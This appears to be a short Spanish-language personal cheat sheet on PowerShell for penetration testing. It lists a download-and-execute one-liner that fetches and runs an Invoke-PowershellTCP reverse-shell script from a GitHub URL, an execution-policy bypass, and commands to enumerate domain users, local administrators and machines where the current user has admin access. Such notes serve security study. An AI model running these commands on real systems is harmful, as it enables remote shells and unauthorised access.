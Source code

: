 # Powershell

Tags: #Windows #Powershell #Comandos 

Extensiones:
	* .ps1
	* .psm1
	* .psd1

```powershell 
# Cargar un binario en PS desde memoria 

❯ powershell -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Omar/Invoke-PowershellTCP.ps1')"

Nota: Se coloca 'powershell -c' si no se ejecuta en un entorno de Powershell 
```

```powershell
❯ Import-Module .\Script.ps1       # Importar un modulo para utilizar los submodulos 
```

```powershell
❯ powershell -ep bypass                # Politica que nos permite bypass y poder ejecutar scripts en PS
 	# ep = Ejecutar politicas 
❯ ..\script.ps1                        # Ejecutar el binario en PS
```

## Enumeración

```powershell
❯ net user /domain                   # Mirar los usuarios del dominio 
❯ net user                           # Mirar los usuarios locales 
❯ net localgroup administrators      # Muestra los miebros del grupo local de administradores
```

```powershell 
❯ Find-WMILocalAdminAccess.ps1 -Verbose  # Enumeración de otras maquinas donde el usuario actual tiene acceso 
```